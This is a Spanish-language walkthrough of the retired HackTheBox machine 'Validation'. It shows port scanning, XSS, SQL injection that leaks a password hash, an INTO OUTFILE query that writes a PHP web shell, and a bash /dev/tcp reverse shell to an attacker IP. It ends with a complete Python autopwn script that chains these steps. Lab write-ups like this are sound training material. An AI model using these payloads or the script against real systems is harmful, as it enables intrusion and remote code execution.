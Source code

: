 ```yaml
---
title: Validation
layout: page
permalink: /HTB_Validation
---
```


<h2 class="amarillo">HackTheBox - Validation WriteUp - Máquina retirada</h2>
<div id="logos" style="text-align: center;">
  <img src="/assets/images/HTB/Validation/Validation.png" alt="under" oncontextmenu="return false;">
</div>

Comenzamos encendiendo la maquina Validation y obtenemos la dirección IP 10.129.95.235 y para identificar a que sistema operativo nos estamos enfrentando en base al TLL
<div style="text-align: center;">
  <img src="/assets/images/HTB/Validation/1.png" alt="under" oncontextmenu="return false;">
</div>
![[HTB/Machines/Validation/Images/1.png]]
Y vemos que tenemos un TLL de 63 por tanto estamos frente una maquina Linux

<h2 class="amarillo">Enumeración</h2>

Comenzamos enumerando la maquina identificando los puertos que estén abiertos `nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn` y exportamos la captura 
<div style="text-align: center;">
  <img src="/assets/images/HTB/Validation/2.png" alt="under" oncontextmenu="return false;">
</div>

Y vemos que tenemos los puertos abiertos 22 80 4566 8080, con estos puertos procedemos a hacer un escaneo exhaustivo para identificar la version y servicio y corren para cada uno de estos puertos
<div style="text-align: center;">
  <img src="/assets/images/HTB/Validation/3.png" alt="under" oncontextmenu="return false;">
</div>

Vemos un puerto 80 con el servicio http (una pagina web) la cual enumeraremos con whatweb

<div style="text-align: center;">
  <img src="/assets/images/HTB/Validation/4.png" alt="under" oncontextmenu="return false;">
</div>

Probamos a hacer algo de fuzzing con un diccionario de mil y pico rutas que nos trae nmap `--script http-enum`
<div style="text-align: center;">
  <img src="/assets/images/HTB/Validation/5.png" alt="under" oncontextmenu="return false;">
</div>

A pesar de encontrar una ruta /accounts.php, iremos primero a la web

<div style="text-align: center;">
  <img src="/assets/images/HTB/Validation/6.png" alt="under" oncontextmenu="return false;">
</div>

Vemos que podemos registrar usuarios en la pagina web y que el texto que pongamos en username se ve reflejado en la web, y las tecnologías que tiene la web vemos que tiene php
<div style="text-align: center;">
  <img src="/assets/images/HTB/Validation/7.png" alt="under" oncontextmenu="return false;">
</div>

Y accediendo a /account.php con nuestro input malicioso en username:

```javascript
alert("XSS")
```

<div style="text-align: center;">
  <img src="/assets/images/HTB/Validation/8.png" alt="under" oncontextmenu="return false;">
</div>

La pagina es vulnerable a XSS, pero viendo que podemos listar diferentes tipos de usuarios seleccionando el país probamos a realizar una inyección SQL filtrando todo el trafico en el proxy de BurpSuite

<div style="text-align: center;">
  <img src="/assets/images/HTB/Validation/9.png" alt="under" oncontextmenu="return false;">
</div>

Hacemos el SQLI hasta que encontramos información relevante

<div style="text-align: center;">
  <img src="/assets/images/HTB/Validation/10.png" alt="under" oncontextmenu="return false;">
</div>

<div style="text-align: center;">
  <img src="/assets/images/HTB/Validation/11.png" alt="under" oncontextmenu="return false;">
</div>

<div style="text-align: center;">
  <img src="/assets/images/HTB/Validation/12.png" alt="under" oncontextmenu="return false;">
</div>

A pesar de encontrar columnas interesantes no hay nada
<div style="text-align: center;">
  <img src="/assets/images/HTB/Validation/13.png" alt="under" oncontextmenu="return false;">
</div>

<div style="text-align: center;">
  <img src="/assets/images/HTB/Validation/14.png" alt="under" oncontextmenu="return false;">
</div>

<div style="text-align: center;">
  <img src="/assets/images/HTB/Validation/15.png" alt="under" oncontextmenu="return false;">
</div>

Encontramos lo que parece ser un usuario uhc

```
uhc:*C6A38A5736CBA87E617301ECAB64184671128718
```

Suponiendo que nos encontramos en el directorio /var/www/html y que podemos abusar del SQL mediante el SQLi probamos a subir un prueba.txt

```sql
select "prueba" into outfile "/var/www/html/prueba.txt"-- -
```

<div style="text-align: center;">
  <img src="/assets/images/HTB/Validation/16.png" alt="under" oncontextmenu="return false;">
</div>

Y accediendo de la URL vemos el contenido del archivo prueba.txt

<div style="text-align: center;">
  <img src="/assets/images/HTB/Validation/17.png" alt="under" oncontextmenu="return false;">
</div>

Siguiendo este principio probamos a subir una reverse shell con php

```php
<?php echo "<pre>" . shell_exec($_GET['cmd']) . "</pre>"; ?>
```

Intentando acceder a nuestra reverse subiéndola aprovechándonos del SQLi

```sql
select "<?php echo "<pre>" . shell_exec($_GET['cmd']) . "</pre>"; ?>" into outfile "/var/www/html/reverse.php"-- -
```

Vemos que se ha creado la reverse shell y que la pagina web nos interpreta nuestro código malicioso
<div style="text-align: center;">
  <img src="/assets/images/HTB/Validation/18.png" alt="under" oncontextmenu="return false;">
</div>

Probamos a ejecutar **whoami** y perfecto
<div style="text-align: center;">
  <img src="/assets/images/HTB/Validation/19.png" alt="under" oncontextmenu="return false;">
</div>

Por consecuencia tratamos de entablarnos una conexión remota con bash
```bash
bash -c "bash -i %26> /dev/tcp/10.10.16.42/443 0>%261"
```
<div style="text-align: center;">
  <img src="/assets/images/HTB/Validation/20.png" alt="under" oncontextmenu="return false;">
</div>

Y estando en escucha recibimos la reverse shell, seguido hacemos un tratamiento de la TTY
<div style="text-align: center;">
  <img src="/assets/images/HTB/Validation/21.png" alt="under" oncontextmenu="return false;">
</div>

Revisando un poco los archivos de configuración vemos una credencial y volvemos a ver el usuario uhc

<div style="text-align: center;">
  <img src="/assets/images/HTB/Validation/22.png" alt="under" oncontextmenu="return false;">
</div>

Probamos a conectarnos como el usuario uhc pero vemos que en el directorio /home/ este usuario no existe, haciendo un hostname -I vemos que estamos en un contenedor
<div style="text-align: center;">
  <img src="/assets/images/HTB/Validation/23.png" alt="under" oncontextmenu="return false;">
</div>

Probamos a conectarnos por ssh y reutilizando la credencial del usuario uhc habremos completado la maquina

<div style="text-align: center;">
  <img src="/assets/images/HTB/Validation/24.png" alt="under" oncontextmenu="return false;">
</div>

De paso quiero compartir un script autopwn en python para acceder al www-data

<div style="text-align: center;">
  <img src="/assets/images/HTB/Validation/poc.png" alt="under" oncontextmenu="return false;">
</div>

```python
#!/usr/bin/env python3
# Autor: Juan García aka liandd
import sys
import signal
from termcolor import colored
import requests
import argparse
import threading
from pwn import *


# Ctrl_C
def def_handler(sig, frame):
    print(colored("\n[!] Saliendo...\n", "red"))
    sys.exit(1)


# Ctrl_C
signal.signal(signal.SIGINT, def_handler)


def get_arguments():
    parser = argparse.ArgumentParser(
        description=colored("AutoPwn Validation", "red")+colored(" HTB", "green")+" by "+colored("liandd", "red"))
    parser.add_argument('-u', '--url', dest="URL",
                        help="Machine URL to Pwn (i.e --url http://10.129.95.235)")
    parser.add_argument('-i', '--ip', dest="IP",
                        help="IP address to get shell (i.e --IP 10.10.16.42)")
    parser.add_argument('-p', '--port', dest="PORT",
                        help="PORT to get shell (i.e --port 443)")

    options = parser.parse_args()
    if options.URL is None or options.IP is None or options.PORT is None:
        parser.print_help()
        print("\n\n")
        sys.exit(1)
    return options.URL, options.IP, options.PORT


def upload_file(URL):
    data = {'username': 'blyat',
            'country': """Uruguay' union select "<?php system($_GET['cmd']); ?>" into outfile "/var/www/html/shell.php"-- -"""}

    r = requests.post(URL, data=data)


def intrusion(URL, IP, PORT):
    data = {
        'cmd': "/bin/bash -c 'bash -i >& /dev/tcp/%s/%s 0>&1' " % (IP, PORT)}

    r = requests.get(URL + "/shell.php", params=data)


def main():
    URL, IP, PORT = get_arguments()
    upload_file(URL)

    try:
        threading.Thread(target=intrusion, args=(URL, IP, PORT)).start()
    except Exception as e:
        print(colored(e, "red"))

    shell = listen(PORT, timeout=20).wait_for_connection()
    shell.interactive()


if __name__ == '__main__':
    main()
```

<div style="text-align: center;">
  <img src="/assets/images/HTB/Validation/pwn3d.png" alt="under" oncontextmenu="return false;">
</div>